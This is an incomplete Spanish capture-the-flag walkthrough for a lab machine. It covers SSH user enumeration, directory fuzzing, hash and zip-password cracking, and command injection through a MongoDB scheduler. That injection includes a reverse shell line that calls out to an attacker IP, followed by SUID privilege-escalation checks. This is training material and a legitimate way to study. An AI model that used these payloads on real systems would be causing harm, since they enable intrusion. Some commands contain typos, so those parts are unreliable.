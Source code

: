 Esta maquina es dificil en un punto final que no terminamos de escribir
## Summary

- IP -> 10.10.10.58
- Ports -> TCP (22, 3000), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 -> Xenial
    - 3000 -> Apache Hadoop

## Recon
- Comando -> **whatweb http://< URL:PORT>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **searchsploit ssh user enumeration** Buscamos vulnerabilidades, si encontramos con .py mucho mejor, tenemos que encontrar con la version de ssh 7.2 en python2
- Comando -> **python2 ssh_enum.py 10.10.10.58 root 2>/dev/null** Nos dira si ese usuario es valido en la maquina victima y hacemos que los errores no aparezcan 

- Comando -> **wfuzz -c --hc=404 --hh=3861  -t 200 -w < RUTA DICCIONARIO> < http:// URL:PORT/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	- **/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 
Al no encontrar nada, nos vamos a analizar las peticiones en la pagina web en el Inspector -> Network.

Encontramos una ruta en donde podemos ver que exitsen usuarios y hashes **/api/users**
Esos hashes los podemos crackear en la pagina **crackstation.net** checar con john the ripper.
 Primero probamos en el ssh 
	 - Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh   
Despues en el login de la pagina web.

Una vez adentro de la pagina web nos descargamos el archivo baskup
- Comando -> **file myplace.backup** Nos dice que tipo de archivo es por los magic numbers (List file of signatures) y es un ASCII text
- Comando -> **cat myplace.backup** Observamos el contenio y miramos que es base64
- Comando -> **cat myplace.backup | base64 -d | sponge myplace.backup** Decodificamos el archivo y lo metemos en el mismo con sponge lo que nos resulte de la decodificacion
- Comando -> **file myplace.backup** Nos dice que tipo de archivo es por los magic numbers y ahora es un zip
- Comando -> **mv myplace.backup myplace.zip** Le cambiamos el nombre con terminacion .zip para que sea mas comodo
- Comando -> **unzip myplace.zip** Para hacerle el unzip, pero tiene passwd 
- Comando -> **7z l myplace.zip** (l=ele) Podemos ver el contenido interno del archivo zip

- Comando -> **zip2john myplace.zip > hash** Le pasamos el contenido de un archivo zip con passwd y nos regresara un hash que lo colocaremos en un archivo llamado hash
- Comando -> **john --wordlist=</usr/share/wordlists/rockyou.txt> < HASHFILE>** Aplicamos un ataque de fuerza bruta a un archivo hash (raw-md5, sha256) para que nos devuelva la passwd 'magicword' y asi poder abrir el archivo zip anterior

Nos movemos a la siguiente ruta: **/var/www/myplace/** y miramos el archivo app.js

Y obtenemos una passwd la cual podemos usar para podernos conectar por ssh 
- Comando -> **sshpass -p <'PASSWORD'> ssh < USER>@< IP>** Conectarnos por ssh  con el usuario Mark 

- Comando -> **lsb_release -a**  Para ver alguna descripcion del Ubuntu 
- Comando -> **id**
- Comando -> **sudo -l**

- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
	Ahi encontramos un archivo **/usr/local/bin/backup** el cual nos puede ayudar a elevar los privilegios
- Comando -> **la -l /usr/local/bin/backup** Podemos ver los privilegios y lo creo el usuario root y pertenece al grupo admin 
- Comando -> **la -l /home/** Podemos ver los usuarios que tiene home y encontramos 3 (Tom, Mark y Frank)
- Comando -> **groups tom** Miramos a que grupo pertenece cada usuario y nos damos cuenta que Tom pertenece al grupo admin, ademas de que ahi tambien se encuentra la flag de user.txt

Recordemos que esta por detras MongoDB
- Comando -> **ps -faux** Listar procesos en Linux
- Comando -> **mongo -u mark -p j4hb54j3b53kj scheduler** Nos conectaremos a mongo DB a la parte de scheduler, si nos sale un error como el siguiente: 'Failed global initialization' colocamos el siguiente comando **export LC_ALL=C**
	- **>show colletions** 
	- **>db.tasks.find()** Mirar si hay algun comando 
	- **>db.task.insert({"cmd": "touch /tmp/example"})** Para insertar un comando 
- Comando -> **ls -l /tmp** Podemos ver el archivo creado por el comando que habiamos ejecutado anteriormente y este lo hara en este caso por el usuario Tom

Ahora que ya tenemos una via potencial, podemos meter una revershell
- Comando -> **mongo -u mark -p j4hb54j3b53kj scheduler** Nos conectaremos a mongo DB a la parte de scheduler
	-  **>db.task.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.17/443 0>&1'"})** Para insertar un comando que sera una revershell
- Comando -> **nc -nlcp 443** Nos ponemos en escucha por el puerto 443, maquinas Linux 
Ahora somos el usuario Tom, hacemos tratamiento de la consola y buscamos la flag user.txt

## Root
- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
	Ahi encontramos un archivo **/usr/local/bin/backup** el cual nos puede ayudar a elevar los privilegios
- Comando -> **la -l /usr/local/bin/backup** Podemos ver los privilegios y lo creo el usuario root y pertenece al grupo admin 
- Comando -> **la -l /home/** Podemos ver los usuarios que tiene home y encontramos 3 (Tom, Mark y Frank)
- Comando -> **groups tom** Miramos a que grupo pertenece cada usuario y nos damos cuenta que Tom pertenece al grupo admin, ademas de que ahi tambien se encuentra la flag de user.txt La diferencia, es que ahora somos Tom
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0

- Comando -> **ltrace o strace** Te permiten ver que es lo que pasa cuando se ejecuta un comando 
- Comando -> **ltrace backup** Miramos que pasa cuando ejecutamos el backup
- Comando -> **strace backup** Miramos que pasa cuando ejecutamos el backup con mas detalle

Empezamos a agregar valores por lo que serian 3 tipos de valores diferentes para poder hacer funcionar el File. 